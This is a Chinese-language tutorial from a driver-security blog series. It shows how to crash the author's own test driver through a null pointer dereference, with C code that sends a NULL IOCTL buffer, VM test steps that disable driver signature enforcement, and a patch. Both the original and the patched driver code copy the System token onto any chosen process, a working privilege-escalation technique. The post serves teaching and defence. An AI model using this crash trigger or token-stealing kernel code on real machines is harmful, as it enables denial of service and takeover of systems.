


# 【第 08 話】攻擊自己寫的驅動程式－Null Pointer Dereference

## 文章大綱
我們在[【第 07 話】逆向分析 WDM 驅動程式](/asset/第%2007%20話)練習使用 IDA 和 WinDbg 靜態和動態分析驅動程式。這篇我們要攻擊之前寫的 [AbuseEprocessTokenDrv.sys](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessTokenDrv.sys)，讓驅動程式 Null Pointer Dereference 造成系統崩潰。


## 漏洞成因
AbuseEprocessTokenDrv.sys 總共有兩個漏洞。第一個很明顯的是提權功能，雖然被我們稱作是「功能」，但實際上是可以被攻擊者濫用的「漏洞」，畢竟任何攻擊者都可以編譯一個 [AbuseEprocessToken.exe](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessToken.exe) 將自己從一般使用者權限提升成 system。

另一個漏洞的問題則是出在程式中，在[【第 06 話】IOCTL 與驅動程式溝通－實作竄改 EPROCESS TOKEN](/asset/第%2006%20話) 的程式中 `ProcessId = *pIrp_a2->AssociatedIrp.MasterIrp;` 我們取得應用程式傳來的 SystemBuffer。看似理所當然的一行，有個開發者應該注意的事情，就是 SystemBuffer 有可能是 NULL。



程式沒有檢查 SystemBuffer 是否為 NULL 就嘗試存取這個指標，導致 Null Pointer Dereference，造成系統崩潰。


## 寫程式
觸發漏洞的攻擊腳本很簡單，就是在呼叫 `DeviceIoControl` 時傳入 NULL。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/ExploitAbuseEprocessToken)。

```c
int main(int argc, char* argv[])
{
    HANDLE hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        std::cout << "CreateFile error: " << GetLastError() << std::endl;
        return 1;
    }

    DWORD dwWrite;

    // 輸入、輸出都是 NULL、長度為 0，觸發 AbuseEprocessTokenDrv 的 Null Pointer Dereference
    DeviceIoControl(hDevice, ABUSE_EPROCESS_TOKEN, NULL, 0, NULL, 0, &dwWrite, NULL);

    CloseHandle(hDevice);

    return 0;
}
```

## 測試
開啟 VM，記得要在本機開啟 vmmon64.exe，並在 boot options 按 F8 選擇 `Disable Driver Signature Enforcement`。

1. 載入 [AbuseEprocessTokenDrv.sys](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessTokenDrv.sys)
2. 執行 [ExploitAbuseEprocessToken.exe](https://github.com/zeze-zeze/2023iThome/blob/master/ExploitAbuseEprocessToken/bin/ExploitAbuseEprocessToken.exe)
3. 這時 WinDbg 應該會接到這個 Exception，輸入指令 `!analyze -v`，會顯示當前的系統狀態和出問題的 Instruction，如下所示。因為 `rax` 是 0 然後又嘗試存取它而導致 Null Pointer Dereference。

```
mov     rbp,qword ptr [rax]
```

輸入 `g` 繼續執行，就可以得到經典的 BSOD（Blue Screen of Death）如下圖。




## 修補方式
修補 Null Pointer Dereference 漏洞後的驅動程式也放在專案中，可以用 [FixAbuseEprocessTokenDrv.sys](https://github.com/zeze-zeze/2023iThome/blob/master/ExploitAbuseEprocessToken/bin/FixAbuseEprocessTokenDrv.sys) 測試。

針對漏洞的修補的方式有很多，這裡檢查輸入長度是否為 4，不是的話就填預設值 4。

```c
// 檢查輸入長度是否為 4，不是的話就預設為 4
HANDLE processId;
if (inputBufferLength == 4)
{
    processId = *(HANDLE *)pIrp->AssociatedIrp.SystemBuffer;
}
else
{
    processId = (HANDLE)4;
}
```

另外一個需要注意的是原本的程式並沒有檢查 [PsLookupProcessByProcessId](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/ntifs/nf-ntifs-pslookupprocessbyprocessid) 的回傳值，這其實是不好的習慣，容易造成程式不穩定。這裡順便修改原本的程式，為呼叫的 API 加上檢查。

```c
case ABUSE_EPROCESS_TOKEN:
{
    DWORD64 systemToken;

    // 檢查 PsLookupProcessByProcessId 的 status 確保有取得 System 的 EPROCESS 位址
    NTSTATUS status = PsLookupProcessByProcessId((HANDLE)4, &pEprocess);
    if (status == STATUS_SUCCESS)
    {
        // 取得 System (pid 4) 的 EPROCESS Token
        systemToken = *(DWORD64 *)((DWORD64)pEprocess + 0x358);
    }
    else
    {
        break;
    }

    // 檢查 PsLookupProcessByProcessId 的 status 確保有取得目標 Process 的 EPROCESS 位址
    status = PsLookupProcessByProcessId(processId, &pEprocess);
    if (status == STATUS_SUCCESS)
    {
        // 把從應用程式傳來的 pid 的 EPROCESS Token 竄改成 System 的 EPROCESS Token
        *(DWORD64 *)((DWORD64)pEprocess + 0x358) = systemToken;
    }
    else
    {
        break;
    }
    break;
}
```

修補後重新編譯，再執行一次攻擊腳本就不會造成系統崩潰了。


## 參考資料
- [Finding Bugs in Windows Drivers, Part 1 – WDM](https://www.cyberark.com/resources/threat-research-blog/finding-bugs-in-windows-drivers-part-1-wdm)